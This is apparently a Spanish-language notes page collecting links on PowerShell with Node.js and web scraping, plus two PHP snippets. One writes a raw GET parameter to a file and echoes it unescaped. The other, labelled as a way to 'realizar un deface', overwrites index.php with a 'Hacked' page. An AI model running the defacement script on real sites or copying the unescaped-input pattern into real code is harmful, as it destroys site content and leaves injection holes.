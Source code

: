 ### LISTAR PROCESOS DE POWERSHELL CON NODE-POWERSHELL (NODE.JS) Y MOSTRARLOS EN UNA WEB CON EXPRESS
* https://www.jesusninoc.com/07/15/listar-procesos-de-powershell-con-node-powershell-node-js-y-mostrarlos-en-una-web-con-express/

### CREAR UNA COMUNICACIÓN ENTRE UN CLIENTE EN POWERSHELL DE WINDOWS Y UN SERVIDOR EN NODE.JS UTILIZANDO TCP/IP
* https://www.jesusninoc.com/06/02/crear-una-comunicacion-entre-un-cliente-en-powershell-de-windows-y-un-servidor-en-node-js-utilizando-tcp-ip/


-------------------

# Requests-HTML: HTML Parsing for Humans
* https://github.com/psf/requests-html
* https://www.jesusninoc.com/web-scraping/

-------------------

# Ejemplo: almacenar en un fichero la variable GET
```PHP
<?php

// http://localhost:8000/?valor=holadf

	$valor = $_GET["valor"];

	$file = fopen("archivo.txt", "w");
	fwrite($file, $valor . PHP_EOL);
	fclose($file);

	$file = fopen("archivo.txt", "r");
	
	while(!feof($file)) {
		echo fgets($file). "<br />";
	}

	fclose($file);
?>
```

# Ejemplo: realizar un deface
```PHP
<?php
$fp=fopen("index.php","w+");

fwrite($fp,"<title>Hacked</title>\n");
fclose($fp);
?>
```
